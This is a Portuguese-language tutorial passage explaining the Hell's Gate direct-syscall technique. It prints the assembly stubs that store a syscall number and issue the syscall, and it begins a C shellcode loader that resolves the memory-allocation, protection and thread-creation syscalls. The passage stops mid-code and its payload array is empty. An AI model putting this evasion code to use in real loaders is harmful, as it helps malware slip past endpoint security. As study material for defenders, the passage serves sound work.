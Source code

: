 ## Chamando a syscall

Agora que o Hell's Gate inicializou totalmente a estrutura `VX_TABLE_ENTRY` da syscall alvo, ele pode chamá-la. Para fazer isso, o Hell's Gate usa duas funções **assembly** de 64 bits: `HellsGate` e `HellDescent`, mostradas no arquivo [hellsgate.asm](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/hellsgate.asm).

```nasm
data
	wSystemCall DWORD 000h              ; this is a global variable used to keep the SSN of a syscall

.code
	HellsGate PROC
		mov wSystemCall, 000h
		mov wSystemCall, ecx            ; updating the 'wSystemCall' variable with input argument (ecx register's value)
		ret
	HellsGate ENDP

	HellDescent PROC
		mov r10, rcx
		mov eax, wSystemCall            ; `wSystemCall` is the SSN of the syscall to call
		syscall
		ret
	HellDescent ENDP
end
```

Para chamar uma syscall, primeiro o número da syscall precisa ser passado para a função `HellsGate`. Isso o salva na variável global `wSystemCall` para uso futuro. Em seguida, o `HellDescent` é usado para chamar a syscall, passando os parâmetros da syscall. Isso é demonstrado na função [Payload](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L166).

## Gran Finale

E por fim, juntando todas as peças desse quebra cabeça, temos o exemplo da técnica aplicada no trecho de código a seguir.

```c
#pragma once
#include <Windows.h>
#include "structs.h"

#include <stdio.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

unsigned char payload[] = {};
unsigned int payload_len = sizeof(payload);

/*--------------------------------------------------------------------
  VX Tables
--------------------------------------------------------------------*/
typedef struct _VX_TABLE_ENTRY {
	PVOID   pAddress;
	DWORD64 dwHash;
	WORD    wSystemCall;
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;

typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;
```